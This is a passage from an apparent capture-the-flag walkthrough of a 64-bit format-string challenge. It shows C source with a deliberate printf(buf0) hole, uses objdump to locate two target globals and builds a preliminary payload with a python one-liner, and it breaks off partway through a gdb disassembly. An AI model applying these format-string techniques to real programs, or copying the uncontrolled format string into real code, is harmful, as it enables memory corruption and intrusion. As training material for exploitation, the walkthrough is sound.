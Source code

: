 Let's take a look at the C code...

```
#include <stdio.h>
#include <stdlib.h>

int target0 = 0;
int target1 = 0;

void fun0()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);

	if (target0 == 0xace5 && target1 == 0xfacade)
		{
		printf("There's a line between taking advantage, and downright exploiting. You have crossed that line. Level Cleared\n");
		}
	printf("The value of target0 is %x\n", target0);
	printf("The value of target1 is %x\n", target1);
	}

int main()
{
	fun0();
}
```

So we can see that this level is similar to the previous level. We will have to use the format string exploit caused by the printf to change the value of the integers that are being evaluated. However this time we have to write to two different integers. First let's find the static address of the "target0" and "target1" global integers.

```
$	objdump -t f3_64 | grep target
000000000060105c g     O .bss 0000000000000004              target0
0000000000601060 g     O .bss 0000000000000004              target1
```

So the address for target0 is "0x60105c", and the address for target1 is "0x601060". Now we will need to format our string so it is properly stored in memory. We can do this by generating a payload that will be similar to the final payload, and seeing what happens in gdb when we give the program the payload. For now we will use hex strings the same length as the addresses for target0 and target1, however they will be words so they are easier to spot.

```
$  python -c 'print "%3$x" + "%9$x" + "\xad\xde\xbe" + "\xde\xca\xfa"' > payload 
```

Now onto gdb

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000040070f <+0>:   push   rbp
   0x0000000000400710 <+1>:   mov    rbp,rsp
   0x0000000000400713 <+4>:   mov    eax,0x0
   0x0000000000400718 <+9>:   call   0x400666 <fun0>
   0x000000000040071d <+14>:  mov    eax,0x0
   0x0000000000400722 <+19>:  pop    rbp
   0x0000000000400723 <+20>:  ret    
End of assembler dump.
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x0000000000400666 <+0>:   push   rbp
   0x0000000000400667 <+1>:   mov    rbp,rsp
```